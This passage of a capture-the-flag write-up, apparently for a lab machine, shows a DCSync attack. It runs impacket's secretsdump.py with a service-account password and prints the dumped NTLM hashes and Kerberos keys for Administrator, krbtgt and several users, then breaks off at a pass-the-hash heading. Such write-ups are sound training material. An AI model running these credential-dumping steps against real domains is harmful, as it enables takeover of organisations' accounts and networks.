 
## DCSync

This extended privilege allow us to [run DCSync attack](https://adsecurity.org/?p=1729).
For that we use
[impacket's secretdump.py](https://github.com/SecureAuthCorp/impacket/) to get
the users' passwords hashes and mostly the `administrator`'s password hash.

    :::text
    python secretsdump.py 'egotisticalbank.local/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
    EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
    EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
    SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:7a2965077fddedf348d938e4fa20ea1b:::
    [*] Kerberos keys grabbed
    Administrator:aes256-cts-hmac-sha1-96:987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
    Administrator:aes128-cts-hmac-sha1-96:145e4d0e4a6600b7ec0ece74997651d0
    Administrator:des-cbc-md5:19d5f15d689b1ce5
    krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
    krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
    krbtgt:des-cbc-md5:c170d5dc3edfc1d9
    EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
    EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
    EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
    EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
    EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
    EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
    SAUNA$:aes256-cts-hmac-sha1-96:a90968c91de5f77ac3b7d938bd760002373f71e14e1a027b2d93d1934d64754a
    SAUNA$:aes128-cts-hmac-sha1-96:0bf0c486c1262ab6cf46b16dc3b1b198
    SAUNA$:des-cbc-md5:b989ecc101ae4ca1
    [*] Cleaning up...

## PTH
